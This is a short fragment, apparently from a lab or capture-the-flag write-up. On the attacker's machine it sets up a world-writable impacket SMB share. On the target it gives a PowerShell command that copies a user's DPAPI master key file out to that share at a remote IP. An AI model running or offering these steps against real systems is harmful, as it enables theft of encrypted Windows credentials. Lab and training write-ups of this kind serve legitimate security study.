 
### My machine
```sh
mkdir -p share
chmod 777 share

impacket-smbserver share ./share -smb2support

```

### Target
```powershell
copy "C:\Users\steph.cooper\AppData\Roaming\Microsoft\Protect\S-1-5-21-1487982659-1829050783-2281216199-1107\556a2412-1275-4ccf-b721-e6a0b4f90407" \\10.10.16.94\share\masterkey_blob

```